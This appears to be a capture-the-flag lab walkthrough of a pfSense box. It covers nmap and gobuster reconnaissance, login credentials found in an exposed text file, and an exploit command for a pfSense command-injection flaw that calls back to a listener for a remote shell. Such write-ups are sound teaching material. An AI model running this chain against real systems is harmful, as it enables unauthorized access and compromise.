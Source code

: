 ## Nmap Port Scanning
- <mark>Basic Scan</mark>
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -T4  10.10.10.60 -p-
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-04 14:44 EDT
Nmap scan report for 10.10.10.60
Host is up (0.029s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
443/tcp open  ssl/http lighttpd 1.4.35

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.86 seconds
```
- <mark>More Specific Scan Targeting Port 80</mark>
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -sC -T4  10.10.10.60 -p 80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-04 14:49 EDT
Nmap scan report for 10.10.10.60
Host is up (0.021s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_http-server-header: lighttpd/1.4.35

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.98 seconds
```
- <mark>More Specific Scan Targeting Port 443</mark>
```bash
┌──(saxon㉿Saxon)-[~/Desktop]
└─$ nmap -Pn -sV -sC -T4  10.10.10.60 -p 443
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-04 14:54 EDT
Nmap scan report for 10.10.10.60
Host is up (0.026s latency).

PORT    STATE SERVICE  VERSION
443/tcp open  ssl/http lighttpd 1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.09 seconds
```
#### 443/tcp ssl/http lighttpd 1.4.35
- <makr>Diretory Brute-Forcing</mark>
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ gobuster dir -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r -x .txt -k                                                          
	===============================================================
	Gobuster v3.5
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
	===============================================================
	[+] Url:                     https://10.10.10.60
	[+] Method:                  GET
	[+] Threads:                 10
	[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	[+] Negative Status codes:   404
	[+] User Agent:              gobuster/3.5
	[+] Extensions:              txt
	[+] Follow Redirect:         true
	[+] Timeout:                 10s
	===============================================================
	2023/09/04 15:13:46 Starting gobuster in directory enumeration mode
	===============================================================
	/changelog.txt        (Status: 200) [Size: 271]
	/tree                 (Status: 200) [Size: 7492]
	/installer            (Status: 200) [Size: 6113]
	/system-users.txt     (Status: 200) [Size: 106]
	/%7Echeckout%7E       (Status: 403) [Size: 345]
	Progress: 441088 / 441122 (99.99%)
	===============================================================
	2023/09/04 15:41:27 Finished
	===============================================================
	```
	- `changelog.txt` reveals that 2/3 of the vulnerabilities has been patched.![[Pasted image 20230904155837.png]]
	- `system-users.txt` reveals the credential that can be used to perform login which is `rohit:pfsense`.![[Pasted image 20230904160014.png]]
	- After Successful login, one can identify `pfsense` version as `2.1.3`.![[Pasted image 20230904161226.png]]
- <mark>Exploitation</mark>
	- `searchsploit` reveals a potential candidate vulnerability, we can try to validate.
	```bash
	┌──(saxon㉿Saxon)-[~/Desktop]
	└─$ searchsploit pfsense
	
	pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection | php/webapps/43560.py
	```
	-  The python exploit work out-of-the-box after setting up corresponding listener.
	```bash
	python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.15 --lport 4444 --username rohit --password pfsense
	```
- <mark>Post-Exploitation</mark>'
```bash
No Need root privilege by default
```